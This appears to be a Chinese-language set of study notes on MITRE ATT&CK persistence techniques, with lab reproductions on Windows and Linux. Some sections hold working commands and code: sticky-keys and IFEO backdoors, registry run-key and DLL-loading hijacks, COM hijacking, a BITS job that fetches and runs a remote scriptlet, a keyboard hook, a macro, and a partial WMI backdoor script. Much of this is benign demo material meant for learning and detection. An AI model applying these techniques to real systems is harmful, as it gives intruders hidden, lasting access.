



# Persistence

## .bash_profile and .bashrc

MACOS

## Accessibility Features-T1015

Windows包含可访问性功能，这些功能可以在用户登录之前（例如，当用户在Windows登录屏幕上时）通过组合键启动。攻击者可以修改这些程序的启动方式，以获取命令提示符或后门程序，而无需登录系统。比如shift后门，通过五次shift按键调用C:\Windows\System32\sethc.exe。

通过命令修改sethc文件为cmd文件。

```
copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```


在桌面锁定的时候按下五次shift即可在没有进入桌面的情况下调用cmd


```
其他类似的功能还有
屏幕键盘： C:\Windows\System32\osk.exe
放大镜： C:\Windows\System32\Magnify.exe
旁白： C:\Windows\System32\Narrator.exe
显示切换器： C:\Windows\System32\DisplaySwitch.exe
App切换器： C:\Windows\System32\AtBroker.exe
```

## Account Manipulation

账户操作是说通过修改一些低权限的账户的权限，来达到权限维持的目的。一般情况下我们可能会将某个用户添加到特定的管理员组，实际上还有一种更加隐蔽的方法是添加DACL权限，原文中并未提到，通过添加DACL权限几乎可以将任意权限赋予特定账户。后续会有文章单独说一下这一点。

## AppCert DLLs-T1182

如果有进程使用了CreateProcess、CreateProcessAsUser、CreateProcessWithLoginW、CreateProcessWithTokenW或WinExec函数，那么此进程会读取注册表项：

```
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SessionManager\AppCertDlls
```

此项下的dll都会加载到此进程。（Win7下默认没有此项）


首先创建这个注册表项


指向一个DLL文件，这个DLL文件会使用MessageBox弹出一个对话框，C++代码为：

```c++
// mydll.cpp : Defines the entry point for the DLL application.
//
#!c
#include "stdafx.h"
#include "Windows.h"
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
					 )
{
	MessageBox(NULL, "testAppCert DLLs", "attack", MB_OK| MB_ICONEXCLAMATION);
    return TRUE;
}
```

然后创建一个程序，使用CreateProcess创建进程，这里的代码含义为使用CreateProcess执行一个cmd命令，代码为（这里是直接使用的MSDN上给出的示例https://docs.microsoft.com/zh-cn/windows/win32/procthread/creating-processes）：

```c++
#include <windows.h>
#include <stdio.h>
#include <tchar.h>

void _tmain( int argc, TCHAR *argv[] )
{
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    ZeroMemory( &si, sizeof(si) );
    si.cb = sizeof(si);
    ZeroMemory( &pi, sizeof(pi) );
    if( argc != 2 )
    {
        printf("Usage: %s [cmdline]\n", argv[0]);
        return;
    }
    // Start the child process. 
    if( !CreateProcess( NULL,   // No module name (use command line)
        argv[1],        // Command line
        NULL,           // Process handle not inheritable
        NULL,           // Thread handle not inheritable
        FALSE,          // Set handle inheritance to FALSE
        0,              // No creation flags
        NULL,           // Use parent's environment block
        NULL,           // Use parent's starting directory 
        &si,            // Pointer to STARTUPINFO structure
        &pi )           // Pointer to PROCESS_INFORMATION structure
    ) 
    {
        printf( "CreateProcess failed (%d).\n", GetLastError() );
        return;
    }
    // Wait until child process exits.
    WaitForSingleObject( pi.hProcess, INFINITE );
    // Close process and thread handles. 
    CloseHandle( pi.hProcess );
    CloseHandle( pi.hThread );
}
```

此时编译出了两个文件，一个exe，一个DLL


执行TestCreateProcess.exe运行calc.exe（此时），可以看到dll已经被调用：


## AppInit DLLs-T1103

当User32.dll被调用时，会获取AppInit DLLs注册表项，如果有值，则会通过LoadLibrary()API加载，不使用User32.dll的程序是不需要加载这个注册表项的。（https://support.microsoft.com/en-us/help/197571/working-with-the-appinit-dlls-registry-value）

注册表位置：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows
```


使用和上一个AppCert相同的dll，也就是mydll.dll，同时LoadAPPInit_DLLS需要设置为1。


这个在设置完了发现需要重启之后才能生效，重启之后发现开机自动被调用（忽略MessageBox中的名称，这里用的是AppCert Dlls实验中的dll）


通过Process Explorer可以看到Chrome浏览器和搜狗拼音输入法都会自动调用User32.dll从而加载AppInit DLLs注册表中的c:\mydll.dll


同时cmd.exe也会调用User32.dll。是一个需要重点关注的注册表项。需要检测AppInit DLLs注册表动态，是否存在被修改的情况，同时可以通过APPLocker进行设置白名单，禁止通过AppInit DLLs调用dll。

## Application Shimming-T1138

Shims可用于在较新的环境中支持旧API，或在旧环境中支持新API。在计算机编程，一个Shims是一个小型数据库，是透明的拦截API调用和改变传递的参数，处理操作本身或把操作重定向到其他地方。

例如，Application Shimming应用程序允许开发人员将为WindowsXP创建的应用程序所写的修复在无需重写代码的情况下用于Win10。

​    Shim架构实现了一种API钩子，而windows API是通过一组DLL来实现的，windows系统上的每个应用程序导入这些DLL，并在内存中维护一个存储调用函数地址的表。

我们可以通过sdbinst工具将自定义的sdb数据库文件部署到计算机中，部署并注册数据库文件之后操作系统会在启动应用程序时启用兼容性修补程序。

首先生成了一个DLL文件用于测试，代码和APPCertdlls的一样，通过MessageBox弹一个窗。然后安装ApplicationCompatibilityToolkit工具（可参考https://support.microsoft.com/en-us/help/317510/how-to-use-the-compatibility-administrator-utility-in-windows），安装完成后通过命令行打开：


打开之后创建fix：


选择InjectDll：


设置希望被加载的dll路径：


然后确定下一步完成：


现在保存这个数据库名称：


保存之后会产生一个名为testShim.sdb的文件，此时执行还需要将sdb安装到系统的Shim库中


可以通过ApplicationCompatibilityToolkit直接安装，也可以通过sdbinst.exe进行安装（系统自带，可以直接运行）




安装完成之后可以看到已经安装的testShim：


此时运行putty时dll被加载：


需要卸载的话也可以使用sdbinst.exe进行卸载：


**防御与检测：**

试了一下已经会被天擎阻断操作，通过告警也可以看到安装过程会修改程序的注册表，可以主要检测是否在注册表中添加sdb文件，或者是系统日志是否存在调用sdbinst的情况。


## 未完成Authentication Package

Windows身份验证包DLL在系统启动时由本地安全机构（LSA）进程加载。它们为操作系统的多个登录过程和多个安全协议提供支持。

目标注册表地址：

```
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\
```

将fortest.dll放入System32路径下


然后再注册表中插入，但是不知道什么原因并没有调用成功


用proces Explorer没有找到相关的dll加载，后面再看这个问题了。


## BITS Jobs

BITS，后台智能传输服务，是一个 Windows 组件，它可以利用空闲的带宽在前台或后台异步传输文件，例如，当应用程序使用80%的可用带宽时，BITS将只使用剩下的20%。不影响其他网络应用程序的传输速度，并支持在重新启动计算机或重新建立网络连接之后自动恢复文件传输。

这里使用的是三好学生的一个测试用例：

```
#创建一个bitsadmin会话
bitsadmin /create backdoor

bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor

```

运行之后每隔一段时间calc.exe会被执行


关于Bitsadmin的操作可以参考：

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-examples

## Bootkit

Bootkit是一种更高级的Rootkit，安全的对抗首先在权限方面，权限高的进程对权限低的权限就是就是降维打击，无往不利。当权限相同时，启动得早便为王。所谓的bootkit也就是基于这个思路设计的一种复杂病毒。它优先于Windows系统启动，自然也就优先于杀毒软件启动的时间。（这个不是很懂，就没研究）

## Browser Extensions

通过在浏览器中植入恶意代码（后门）进行控制，Chrome之前就爆出过类似的带有后门的插件。

## 未完成Change Default File Association

修改一些程序默认的加载项？

## Component Firmware

一些攻击者可能会采用复杂的手段来破坏计算机组件并安装恶意固件，这些恶意固件将在操作系统和主系统固件或BIOS之外执行攻击者代码。感觉更像一个思路吧，相关的技术没有跟。

## Component Object Model Hijacking

### COM组件

COM组件劫持，COM是Component Object Model （组件对象模型）的缩写，COM组件由DLL和EXE形式发布的可执行代码所组成。

​    CLSID是标识COM类对象的全局唯一标识符。每一个CLSID代表着一个COM组件，CLSID的算法思路是结合机器的网卡、时间、和一个随机数来生成GUID，微软的COM中GUID和UUID和CLSID、SID差不多，各自代表的含义不同：

```
UUID：代表COM
CLSID：代表COM组件中的类
IID：代表Com组件中的接口
```

Python也有能直接生成GUID的库

```
>>> import pythoncom
>>> print(pythoncom.CreateGuid())
{DE6F358D-A750-49D5-9217-196E05B3E2AE}
```

**COM组件与注册表之间的关系**

Com组件编写好了之后（一般用C++编写），然后需要注册到注册表中，这样在调用这个COM组件的功能的时候程序会进注册表进行读取相应位置的DLL或者EXE，加载到进程中使用。

在学习COM组件编写的时候遇到一句话感觉很形象：C语言的接口就是函数，C++的接口就是类的成员函数，而COM接口就是一些纯虚函数的集合。

### 最简单的COM劫持

首先通过命令添加注册表项：

```
SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
REG.EXE ADD %KEY% /VE /T REG_SZ /D "C:\fortest.dll" /F
REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F
```


然后输入命令（SET设置环境变量，但是只作用于当前cmd.exe）：

```
SET COR_ENABLE_PROFILING=1
SET COR_PROFILER={11111111-1111-1111-1111-111111111111}
```

细节可参考

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/set_1

https://www.robvanderwoude.com/ntset.php



再执行能够调用.NET的命令即可触发DLL实现弹窗（因为实验DLL为32位，所以在64位系统上执行此操作会失败）。



如果想要不用每次都执行SET设置当前cmd的环境变量，可以使用WMIC更改环境变量，但是需要重启或者注销之后重新登录。

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"
wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
```

在一个新打开的cmd中使用set查看当前环境变量已经能够看到对应的CLSID值。


## Create Account

创建本地账户，但是这样的话实际上很容易被发现，优点就是不需要任何工具辅助。

## DLL Search Order Hijacking-T1038

从名称可以看到实际上这也就是一种DLL劫持，但是利用的是Windows在加载DLL时搜索顺序，一般情况下会从程序的当前目录搜索，但是也可能从其他路径进行加载。

如果攻击者在将要加载的DLL所在路径之前搜索的路径中放入了同名的恶意DLL，那么恶意DLL将被加载，这种攻击方式叫做DLL预加载攻击。

```
例：
Test.exe文件运行时会加载a.dll文件，如果攻击者知道test.exe搜索DLL路径的顺序为：
C:\
C:\aa\
C:\bb\
此时假设a.dll在C:\aa\目录下，那此时如果在C:\下放一个同名的DLL，那么它将在搜索到C:\aa\之前被test.exe被加载。
```

## Dylib Hijacking-T1157

MACOS

## External Remote Services

直接翻译的话就是“外部远程服务”，个人认为可以算一种思路，但是不算一种具体的技术，主要是说通过VPN或者其他的访问机制等使用户可以从外部位置连接到内部企业网络资源。其中还提到了WINRM。

## File System Permissions Weakness-T1044

这里的意思是利用文件权限弱点进行攻击，实际上提权中用到的这种方法会更多。当一个程序以高权限运行时，通常会加载其他的二进制文件（如DLL文件），而这些DLL文件的权限设置不正确，可能会被修改，加入使用其他的DLL来替换原本应该被执行的DLL，则恶意DLL会被以高权限执行。

比如之前的VPN的提权漏洞，DLL文件的可写权限为Everyone（关键点），而主程序的执行权限为System，当创建一个DLL文件进行替换原文件时，恶意的DLL文件会以system权限执行。

## Hidden Files and Directories

是指通过设置或者是attrib.exe隐藏二进制文件或者是其他的文件，在Linux、MACOS、Windows平台上都有此类型功能。

## Hooking-T1179

类似于进程注入，攻击者可以使用钩子在另一个进程的上下文中加载和执行恶意代码，从而屏蔽执行过程，同时还允许访问进程的内存和可能的特权。通过正常使用调用功能时，使用HOOK机制能够通过连续调用来提供持久性。

这里直接使用逆向工程核心原理中的HOOK教程的代码来进行演示HOOK技术，拿键盘输入举例，首先了解一下在键盘输入时常规的Windows消息流：

1、 发生键盘输入事件时，WM_KEYDOWN消息被添加到[OS message queue]。

2、 OS判断哪个应用程序中发生了事件，然后从[OS message queue]取出消息，添加到相应应用程序的[application message queue]中。

应用程序（如记事本）监视自身的[application message queue]，发现新添加的WM_KEYDOWN消息后，调用相应事件的处理程序来进行处理。


从上图可以更形象的来理解这个过程。

下面直接利用原书中的示例代码来进行实验，我们通过编写的钩子（HOOK）文件来拦截notepad.exe的输入：

首先使用C++生成一个HookMain.exe文件，源代码为HookMain.cpp:

```
#include "stdio.h"
#include "conio.h"
#include "windows.h"

#define	DEF_DLL_NAME		"KeyHook.dll"
#define	DEF_HOOKSTART		"HookStart"
#define	DEF_HOOKSTOP		"HookStop"

typedef void (*PFN_HOOKSTART)();
typedef void (*PFN_HOOKSTOP)();

void main()
{
	HMODULE			hDll = NULL;
	PFN_HOOKSTART	HookStart = NULL;
	PFN_HOOKSTOP	HookStop = NULL;
	char			ch = 0;

	hDll = LoadLibraryA(DEF_DLL_NAME);
    if( hDll == NULL )
    {
        printf("LoadLibrary(%s) failed!!! [%d]", DEF_DLL_NAME, GetLastError());
        return;
    }

	HookStart = (PFN_HOOKSTART)GetProcAddress(hDll, DEF_HOOKSTART);
	HookStop = (PFN_HOOKSTOP)GetProcAddress(hDll, DEF_HOOKSTOP);
	HookStart();
	printf("press 'q' to quit!\n");
	while( _getch() != 'q' )	;
	HookStop();
	FreeLibrary(hDll);
}
```

然后生成一个DLL文件，名为KeyHook.dll，源代码为KeyHook.cpp:

```
#include "stdio.h"
#include "windows.h"

#define DEF_PROCESS_NAME		"notepad.exe"

HINSTANCE g_hInstance = NULL;
HHOOK g_hHook = NULL;
HWND g_hWnd = NULL;

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpvReserved)
{
	switch( dwReason )
	{
        case DLL_PROCESS_ATTACH:
			g_hInstance = hinstDLL;
			break;
        case DLL_PROCESS_DETACH:
			break;
	}
	return TRUE;
}

LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	char szPath[MAX_PATH] = {0,};
	char *p = NULL;
	if( nCode >= 0 )
	{
		if( !(lParam & 0x80000000) )
		{
			GetModuleFileNameA(NULL, szPath, MAX_PATH);
			p = strrchr(szPath, '\\');
			if( !_stricmp(p + 1, DEF_PROCESS_NAME) )
				return 1;
		}
	}
	return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}

#ifdef __cplusplus
extern "C" {
#endif
	__declspec(dllexport) void HookStart()
	{
		g_hHook = SetWindowsHookEx(WH_KEYBOARD, KeyboardProc, g_hInstance, 0);
	}
	__declspec(dllexport) void HookStop()
	{
		if( g_hHook )
		{
			UnhookWindowsHookEx(g_hHook);
			g_hHook = NULL;
		}
	}
#ifdef __cplusplus
}
#endif
```

将代码编译成对应的exe和dll文件之后我们进行测试。

首先打开HookMain.exe程序，然后程序会自动调用对应的DLL文件，然后使用ProcessExplorer查看发现此时notepad.exe还没有调用Keyhook.dll


在notepad.exe中尝试输入字母发现并不能输入，再次Search发现notepad已经调用了KeyHook.dll文件，键盘的输入被拦截。


这是一个简单的消息钩子，使用的API是SetWindowsHookEx()这个API，在使用SetWindowsHookEx()设置好钩子之后，在某个进程中生成指定消息时，操作系统会将相关的DLL文件强制注入到响应进程，然后调用注册的钩子过程。攻击者可以通过钩子获取键盘输入、执行恶意代码、等等操作，同时还允许访问进程的内存和可能的特权。

## （未完成）Hypervisor

Hypervisor又称为虚拟机监视器（Virtual machine monitor），是用来建立与执行虚拟机器的软件、固件或硬件。

## Image File Execution Options Injection

Image File Execution Options Injection简称IFEO（映像劫持），使开发人员可以将调试器附加到应用程序。比如将cmd.exe设置为notepad.exe调试器，在执行notepad.exe时，实际上执行的是cmd.exe（上可以设置开启启动，也可以设置关闭时启动等）。

演示的方式很简单，直接修改注册表：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```


可以看到运行notepad.exe的时候cmd.exe被执行了。

## Launch Agent

MACOS

## Launch Daemon-T1160

MACOS

## Launchctl

MACOS

## LC_LOAD_DYLIB Addition

MACOS

## Local Job Scheduling

也就是本地的定时计划，crontab的使用，在执行一章里也有：

```
crontab -e //进入计划任务的编辑模式
* * * * * myCommand //每分钟执行命令一次
```

可以使用crontab执行本地能够反弹shell的脚本。

具体的命令可以参考https://www.runoob.com/linux/linux-comm-crontab.html

## Login Item

MACOS

## Logon Scripts

登录脚本，可以在windows中指定用户登录时运行的脚本，攻击者可以植入后门等。


运行修改注册表的bat文件，执行命令修改注册表，然后再次重新登录时设定的UserInitMprLogonScript的值会被执行（也就是c:\run_calc.bat）。

命令为：

```
REG.exe ADD HKEY_CURRENT_USER\Environment /v UserInitMprLogonScript /t REG_SZ /d "c:\run_calc.bat"
```

实际上UserInitMprLogonScript的值也是可以直接设置为命令的。


## 未完成Modify Existing Service

通过修改注册表中服务的配置信息，比如该服务的可执行文件等，将现有服务执行的文件修改成恶意文件，从而达到持久化的目的。

但是复现的时候发现服务使用普通的exe文件会出现问题，暂时没有深究。

## Netsh Helper DLL

Netsh.exe（也称为Netshell）是用于与系统的网络配置进行交互的命令行脚本实用程序。它包含添加辅助DLL的功能，以扩展实用程序的功能。也就是使用Netsh.exe进行加载DLL。

这里使用此前的测试DLL，语句为：

```
netsh.exe add helper c:\fortest.dll
```


但是实际上在原文中提到的仍然是需要使用其他的持久性方式来使用netsh执行恶意dll，所以个人认为实际上这个可以放在Execution章节中。

不错的链接：

https://htmlpreview.github.io/?https://github.com/MatthewDemaske/blogbackup/blob/master/netshell.html

## New Service-T1050

顾名思义，通过创建自动运行的新服务来进行执行相应的文件或者代码，和Execution中Service Execution-T1035那一节意思大体差不多，不再说明了。

## Office Application Startup

主要是说利用Office启动时的一些持久化方法，这里主要说一下在文档中插入宏，在打开Office时用于执行代码并获得持久性。

创建一个文档，然后通过快捷键Alt+F11启动Microsoft Visual Basic for Application并且在其中插入代码：

```
Private Sub Document_Open()
  MsgBox "ATT&CK Test~", vbOKOnly, "att&ck test"
  a = Shell("calc.exe", vbHide)
End Sub
```


然后保存成dotm格式（doc能不能这样没测）


在启用宏的情况下VB代码被执行：


## Path Interception-T1034

主要是说类似于可信任服务路径漏洞的一些情况，比如当一个程序使用了CreateProcess函数，并且没有正确的对CreateProcess函数中的第二个参数进行添加双引号，并且这个程序加载的二进制文件（也或者是安装目录，因为一般加载的文件都是在安装目录下）还存在空格，那么这个程序就可能存在这一漏洞。

其中powershell脚本工具Powerup就能够搜索系统中可能存在此类漏洞的程序。可信任服务路径漏洞的原理：


之前找到过这样的软件的漏洞，复现直接跳过了。

## Plist Modification

MACOS

## 未完成/Port Knocking

Port Knocking是一种隐藏端口的技术，典型的例子是Cd00r。Cd00r提供外部对系统的远程访问，而无需一直显示开放的端口。通过在指定的接口捕获这种数据包，

http://www.phenoelit.org/stuff/cd00r.c

## 未完成/Port Monitors

可以通过系统API来设置端口监视器，设置在对应端口启动时会加载的DLL。

## Rc.common

MACOS

## Re-opened Applications

MACOS

## Redundant Access

冗余访问，算不上一种技术，算是一个想法吧，就是在维持权限的时候保留更多的登录方式，防止权限丢失。比如在留后门的时候同时上传Webshell，也就是多留后门。

## Registry Run Keys / Startup Folder

在注册表或启动文件夹中的“运行键”中添加条目将使引用的程序在**用户登录**时执行。

使用calc.exe演示（这里是重启之后登录的时候的弹窗，为了显示又把注册表命令运行了一遍）：


注册表命令：

```
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v RegRun /t REG_SZ /d "c:\windows\system32\calc.exe"
```

类似的注册表键值：

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```

## （未完成）Scheduled Task-T1053

即通过计划任务进行执行指定文件，不过感觉这种方式一般可能会用来运行后门文件

## Screensaver

通过修改屏保对应的注册表来实现持久化。

以下屏幕保护程序设置存储在注册表（HKCU\Control Panel\Desktop\）中，可以对其进行操作以实现持久性：

```
SCRNSAVE.exe -设置为恶意PE路径
ScreenSaveActive -设置为“ 1”以启用屏幕保护程序
ScreenSaverIsSecure -设置为“ 0”不需要密码即可解锁
ScreenSaverTimeout -在执行屏幕保护程序之前设置用户不活动超时
```

如果原本已经开启了屏保则直接执行注册表修改命令即可：

```
reg.exe add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\windows\system32\calc.exe
```


## 未完成Security Support Provider

Security Support Provider也就是Windows的安全支持程序，常见的NTLM、Kerberos、CredSSP等协议都要在这个框架下运行。这个程序的DLL会在系统启动时被加载到（Local Security Authority）LSA中。

## 未完成Service Registry Permissions Weakness-T1058

Windows将本地服务配置信息存储在注册表中的下HKLM\SYSTEM\CurrentControlSet\Services。可以通过服务控制器，sc.exe，PowerShell或Reg等工具来操纵存储在服务的注册表项下的信息，以修改服务的执行参数。通过访问控制列表和权限控制对注册表项的访问。

## Setuid and Setgid

Setuid and Setgid是在Linux上的标记位，在Linux中，文件和目录的所有权是基于文件创建者的默认uid(user-id)和gid(group-id)的。启动一个进程时也是相同的情况：它以启动它的用户的uid和gid运行，并具有相应的权限。这种行为可以通过使用特殊的权限进行改变。

```
Setuid的作用就是“让执行某个命令的用户以该命令拥有者的权限去执行”。
Setgid的作用是“让执行文件的用户以该文件所属组的权限去执行”。
```

首先简单说一下linux的权限：


根据上下图对照可以了解到/etc/passwd对于文件所有者是可读可写权限，而对于其他用户是只能读权限。


而/usr/bin/passwd的文件所有者的权限为rws，这个s就是setuid的标志，它的意思是其他用户在执行passwd的时候使用的权限也是文件所有者的权限。

通过这样的机制攻击者进行shell逃逸，或者是利用具有setuid或者是setgid标记位的应用程序的漏洞执行代码（感觉这个攻击成本会比较高）。

关于shell逃逸其中有一个文章可以借鉴:

[https://www.iloveflag.com/2019/06/15/rbash%E9%80%83%E9%80%B8/](https://www.iloveflag.com/2019/06/15/rbash逃逸/)

## Shortcut Modification

快捷方式修改，一般是只通过修改windows操作系统中的link文件来执行后门代码。就像ATT&CK官网说的那样：

快捷方式或符号链接是引用其他文件或程序的方法，这些文件或程序在系统启动过程中单击或执行快捷方式时将被打开或执行。对手可以使用快捷方式来执行其持久性工具。

Empire中也有对应的创建快捷方式后门的脚本：

脚本使用：Empire/data/module_source/persistence/Invoke-BackdoorLNK.ps1


再win7上打开lnk时，Empire反弹回shell，后门创建成功


更简单一点的方式就是直接创建一个vbs文件：

```
Set test = CreateObject("Wscript.Shell")
test.Run "calc.exe"
test.Run "cmd.exe"
```


然后将一个calc.exe的快捷方式的目标地址修改为vbs的地址：


修改之后图标会变成VBS的，需要修改一下，点击上图的更改图标即可，这里没找到计算器的图标，用了一个IE的。


然后点击快捷方式会发现cmd.exe和calc.exe同时启动：


## （未完成）SIP and Trust Provider Hijacking-T1198

SIP和信任提供者劫持，首先要了解一下SIP是什么？

简单的说SIP就是一个判断文件签名和验证文件签名的一种机制。

流程入下：


更多的细节可以参考：

https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf

攻击者可能劫持SIP和信任提供程序组件，以误导操作系统和白名单工具。

## Startup Items

MACOS

## System Firmware-T1019

系统固件，BIOS和统一可扩展固件接口（UEFI）或可扩展固件接口（EFI）是系统固件的示例，它们充当计算机的操作系统和硬件之间的软件接口。

一般情况下是指Rootkit的方式来留存后门，原理上来说就是恶意程序在BIOS运行之前运行，这样就可以躲避任何杀软的检测。这个暂时没打算复现。不是很了解这个技术。

## Systemd Service-T1501

这里的系统服务说明的是Linux上的服务，而不是windows上的，说到Systemd就要说到Init进程，在基于Unix的计算机操作系统中，Init进程是一个守护进程，它是计算机系统启动期间启动的第一个进程。Init是一个守护进程，它将一直运行到系统关闭。它是所有其他进程的直接或者间接的父进程。

而Systemd则取代了Init，相对来说Systemd更具优点，功能强大使用方便。同时缺点是体系庞大，非常复杂。

下面是Systemd的架构图：


而监视和控制Systemd的主要命令就是systemctl：

```
# 重启系统
$ sudo systemctl reboot
# 关闭系统，切断电源
$ sudo systemctl poweroff
# CPU停止工作
$ sudo systemctl halt
# 暂停系统
$ sudo systemctl suspend
# 让系统进入冬眠状态
$ sudo systemctl hibernate
# 让系统进入交互式休眠状态
$ sudo systemctl hybrid-sleep
# 启动进入救援状态（单用户状态）
$ sudo systemctl rescue
```

在Linux系统中，有些软件支持Systemd，而有些是不支持的，对于支持Systemd的软件来说，安装的时候会在/usr/lib/systemd/system目录添加一个配置文件。如果想让该软件开机启动，则可以执行下面的命令，比如（http.service）

```
sudo systemctl enable httpd
```

上面的命令相当于在/etc/systemd/system目录添加一个符号链接，指向/usr/lib/systemd/system里面的httpd.service文件。这是因为开机时，Systemd只执行/etc/systemd/system目录里面的配置文件。也就是说如果通过修改/etc/systemd/system中以.service为后缀的配置文件，就可以在Linux系统开机时执行恶意代码。

比如kali下面sshd服务的service文件内容为：


其中ExecStart即为在启动时执行的命令，实际可以通过此命令配置成任意想要执行的命令。.service配置文件的语法相对来说较为固定，详细的可以参考链接：

https://www.ruanyifeng.com/blog/2016/03/systemd-tutorial-part-two.html

## （未完成）Time Providers-T1209

Windows时间服务（W32Time）启用跨域和域内的时间同步。 W32Time时间提供者负责从硬件/网络资源中检索时间戳，并将这些值输出到其他网络客户端。

相关细节：https://docs.microsoft.com/zh-cn/windows-server/networking/windows-time-service/windows-time-service-top

没试验成功

## Trap-T1154

Trap是说Linux或者macOS下的命令，该命令允许程序和shell指定在接收中断信号时将执行的命令。常见的情况是脚本允许正常终止和处理常见的键盘中断，如ctrl+c和ctrl+d。攻击者可以使用它来注册当shell遇到特定中断以执行或作为持久性机制时要执行的代码。

语法：

```
trap commands signals
```

其中commands是触发signals信号后会执行的命令

例：

```
trap "echo ' ATT&CK : Test trap ~'" HUP INT QUIT TSTP
```


可以看到这里在按下Ctrl+c之后echo语句触发，打印出对应字段。其中每一种signals信号在Linux中是特定的,可以使用trap -l来查看列表实际上也可以通过数字来代替对应的signals名称，具体每一种代表的含义可参考链接：

https://www.cnblogs.com/frisk/p/11602973.html

https://man.linuxde.net/trap


## Valid Accounts-T1078

有效账户。。。？认为是一种思路，而非具体的技术，就是说有了现在系统上已经存在的有效账户的凭据等等，来维持权限。

## Webshell-T1100

Webshell？说的就是留Webshell的方式吧。

## Windows Management Instrumentation Event Subscription-T1084

Windows Management Instrumentation（WMI）是一种Windows管理功能，可为Windows系统组件的本地和远程访问提供统一的环境。它依赖于本地和远程访问的WMI服务以及远程访问的服务器消息块（SMB）和远程过程调用服务（RPCS）。在执行一章中说到了通过WMI进行远程执行命令，这里说的是通过WMI的事件订阅功能来实现持久化。


### WMI事件概念：

​    WMI事件是创建从操作系统中或在创建其自己的WMI事件的应用程序中检测到特定操作的WMI查询。这些时间可以用于检测此类操作作为进程结束、正在创建的文件或者注册表项被修改。简单的说就是WMI可以检测系统中的一些改变，当系统中发生了特定的改变之后能够进行相应的操作或者通知。还有就是这些操作必须以管理员权限进行。

在一个WMI事件中需要几个功能：

1、 Filter

Filter的功能是一个WQL查询，列出了想要查找的内容。

2、 Consumer

Consumer的主要作用是接收WMI事件，或者说是一个接口，在接到对应的WMI事件之后不同的Consumer会执行不同的操作。也就是说在设置了Filter进行筛选对应的事件之后会使用Consumer进行后续的操作处理。

```
ActiveScriptEventConsumer：
将事件传递给预定义脚本后，它将以任意脚本语言执行该脚本。此使用者在Windows 2000及更高版本上可用。

CommandLineEventConsumer：
向其传递事件时，在本地系统上下文中启动任意进程。此使用者可在Windows XP及更高版本上使用。

LogFileEventConsumer：
当事件传递到文本日志文件时，将自定义字符串写入文本日志文件。此使用者可在Windows XP及更高版本上使用。

NTEventLogEventConsumer：
向其传递事件时，将特定消息记录到Windows NT事件日志中。此使用者可在Windows XP及更高版本上使用。

SMTPEventConsumer：
每次将事件传递给它时，都会使用SMTP发送电子邮件。此使用者在Windows 2000及更高版本上可用。
```

3、  Binding

Binding的功能就是将Filter和Consumer结合在一起。如果要禁用现有的WMI订阅，需要做的就是删除绑定实例，并且您将不再启用订阅。

### WMI事件订阅：

创建事件订阅的方式有很多种，可以使用Powershell下的cmdlet Set-WMIInstance创建永久的事件订阅。

可以参考链接：

https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/

这里拿一个网上已经生成的实例来进行演示：

使用脚本WMIBackdoor.ps1（来源是乌云镜像上的三好学生提供的：https://wooyun.x10sec.org/static/drops/tips-8189.html）

代码内容为：

```
$filterName = 'TestWMI'
$consumerName = 'attackWMI'
$exePath = 'C:\Windows\System32\calc.exe'
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}
